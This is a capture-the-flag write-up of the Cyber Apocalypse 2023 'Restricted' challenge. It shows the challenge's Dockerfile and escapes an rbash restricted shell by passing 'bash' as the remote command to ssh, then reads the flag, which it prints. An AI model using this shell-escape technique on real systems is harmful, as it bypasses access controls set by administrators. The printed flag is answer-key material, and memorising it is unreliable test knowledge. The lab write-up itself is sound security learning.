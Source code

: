 ```yaml
---
layout: default
title: Restricted
---
```


# [Cyber Apocalypse 2023](index.md) - Misc - Restricted

> You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?

We're given a spawnable Docker container, and a zip file containin it's configuration.

Looking at the files, it's clear that there isn't much to this container. It sets up a restricted user (called `restricted`), restricts that user to only being able to use the `rbash` shell and a very limited subset of commands. It removes the password requirement for the user so we can get in, then it's up to us.

```
FROM debian:latest

RUN apt update -y && apt upgrade -y && apt install openssh-server procps -y

RUN adduser --disabled-password restricted
RUN usermod --shell /bin/rbash restricted
RUN sed -i -re 's/^restricted:[^:]+:/restricted::/' /etc/passwd /etc/shadow

RUN mkdir /home/restricted/.bin
RUN chown -R restricted:restricted /home/restricted

RUN ln -s /usr/bin/top /home/restricted/.bin
RUN ln -s /usr/bin/uptime /home/restricted/.bin
RUN ln -s /usr/bin/ssh /home/restricted/.bin

COPY src/sshd_config /etc/ssh/sshd_config
COPY src/flag.txt /flag.txt
COPY src/bash_profile /home/restricted/.bash_profile

RUN chown root:root /home/restricted/.bash_profile
RUN chmod 755 /home/restricted/.bash_profile
RUN chmod 755 /flag.txt

RUN mv /flag.txt /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

RUN ssh-keygen -A
RUN mkdir -p /run/sshd

EXPOSE 1337

ENTRYPOINT ["/usr/sbin/sshd", "-D", "-o", "ListenAddress=0.0.0.0", "-p", "1337"]
```

The commands we're limited to are `top`, `uptime` and `ssh`.

```
RUN mv /flag.txt /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

The `bash_profile` file that it brings in also restricts the `PATH`, to make it difficult to run other commands.

```
PATH=$HOME/.bin
```

We can see that the flag is going to be in `/`, and will have a randomized name that we won't have any way of knowing beforehand.

We can connect to the container using the command `ssh restricted@139.59.176.230 -p 32149`, and it lets us right in.

Once in... there isn't much we can do, so we need to do. We can hit __tab__ twice to see a list of all the commands that we can run.

```
restricted@ng-restricted-ufopa-654cb48dc7-sfnrq:~$
!          caller     disown     export     if         pwd        suspend    umask
./         case       do         false      in         read       test       unalias
:          cd         done       fc         jobs       readarray  then       unset
[          command    echo       fg         kill       readonly   time       until
[[         compgen    elif       fi         let        return     times      uptime
]]         complete   else       for        local      select     top        wait
alias      compopt    enable     function   logout     set        trap       while
bg         continue   esac       getopts    mapfile    shift      true       {
bind       coproc     eval       hash       popd       shopt      type       }
break      declare    exec       help       printf     source     typeset
builtin    dirs       exit       history    pushd      ssh        ulimit
```

So, I spent some time looking for ways to spawn a shell from any of these programs.

Google led me to a number of articles on the topic of escaping restricted shells:
 * https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290
 * https://null-byte.wonderhowto.com/how-to/escape-restricted-shell-environments-linux-0341685/
 * https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells

The last link was where I found what I needed - a slide deck by Michal Knapkiewicz from a presentation in 2016, on the topic of escaping restricted Unix shells. Slide 9 reminded me that we can run arbitrary commands on the host when we SSH into them.

![Restricted](misc-restricted/01.png)

So, I decided to try some of these.

```
$ ssh restricted@139.59.176.230 -p 32149 -t "/bin/bash"
rbash: line 1: /bin/bash: restricted: cannot specify `/' in command names
Connection to 139.59.176.230 closed.
```

`-t /bin/bash` and `-t /bin/sh` aren't going to work because we're not allowed to use the `/` character.

```
$ ssh restricted@139.59.176.230 -p 32149 -t "bash"
restricted@ng-restricted-ufopa-654cb48dc7-sfnrq:~$
```

Just `-t "bash"` seems to work though, and I get a different prompt when connected. This one is a normal bash shell that has no restrictions.


We're able to `cd` to `/` now, find the flag's randomized file name, and access it.

```bash
restricted@ng-restricted-ufopa-654cb48dc7-sfnrq:~$ cd /
restricted@ng-restricted-ufopa-654cb48dc7-sfnrq:/$ ls
bin   dev  flag_8dpsy  lib    media          mnt  proc  run   srv  tmp  var
boot  etc  home        lib64  memories.dump  opt  root  sbin  sys  usr
```
```bash
restricted@ng-restricted-ufopa-654cb48dc7-sfnrq:/$ cat flag_8dpsy
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```

```
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```

This was a fun puzzle. I'm not familiar enough with `rbash` and restricted shells to know how a person could have prevented this attack - probably by finding another way to accomplish whatever the reason for giving someone a restricted shell was. Maybe it's a hypothetical system to monitor the uptime and load of the server, and maybe something like SNMP or a more purpose-built system would be better suited for that, with fewer security issues.